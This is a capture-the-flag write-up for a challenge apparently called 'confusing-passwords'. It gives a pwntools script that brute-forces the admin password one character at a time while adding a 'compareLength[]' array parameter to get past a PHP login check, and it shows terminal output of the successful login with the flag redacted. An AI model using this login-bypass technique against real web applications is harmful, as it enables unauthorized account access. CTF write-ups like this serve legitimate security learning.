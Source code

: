 ```python
from pwn import *

charset = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()-=+_<>'
charset = [*charset]
for char in charset:
    print(f'trying {char}...')
    r = remote('challenges.0x0539.net',3011)
    r.send('POST /index.php HTTP/1.1\r\n'
            'Content-Length: 42\r\n'
            'Host: challenges.0x0539.net:3011\r\n'
            'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36\r\n'
            'Referer: http://challenges.0x0539.net:3011/index.php\r\n'
            'Content-Type: application/x-www-form-urlencoded\r\n'
            'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7\r\n'
            'Connection: close\r\n\r\n'
            'username=admin&password={}&compareLength[]='.format(char))

    response = r.recvall()
    if b'the secret flag:' in response: # alternatively, `if not b'Login failed' in response`...
        print(f'\n####### \n\'secret flag\' found in response. trimmed output:')
        print(((response.rsplit(b' Welcome admin.',2)[1]).rsplit(b'</div>\n')[0]).strip())
        print('#######')
        break
```

## flag

running the script, we get a successful login on a POST with `&password=f`:

```lua
┌──(root㉿RUBY)-[/mnt/…/ctf/sites/0x0539/confusing-passwords]
└─# python pass_enum.py
trying a...
/mnt/a/ctf/sites/0x0539/confusing-passwords/pass_enum.py:12: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.send('POST /index.php HTTP/1.1\r\n'
trying b...
trying c...
trying d...
trying e...
trying f...
#######
'secret flag' found in response. appending trimmed output:

b"Since you've authenticated as an admin, here's the secret flag: FLAG{*redacted*}"
#######
```
